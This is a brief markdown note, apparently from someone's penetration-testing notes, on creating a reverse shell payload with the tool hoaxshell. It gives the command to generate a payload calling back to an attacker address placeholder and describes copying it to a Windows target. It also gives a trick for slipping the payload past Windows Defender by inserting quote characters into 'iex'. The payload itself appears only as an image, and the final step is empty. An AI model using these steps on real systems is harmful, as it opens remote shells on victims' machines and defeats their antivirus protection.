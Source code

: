 ## Create Reverse Shell Payload Via Hoaxshell
1) `hoaxshell.py -s IP_ADD -r -H "Authorization"
2) Copy payload from kali into target
3) Obfuscate before executing command in target windows cmd line
4) ![image](https://user-images.githubusercontent.com/55113729/214117555-0a496ab7-25f5-4d8e-861e-67cec5c1b353.png)
5) Adding `'` in between `iex` helps to trick windows defender into thinking this is a regular, safe command and NOT a payload, allowing for execution into hoaxshell rev shell
6) 
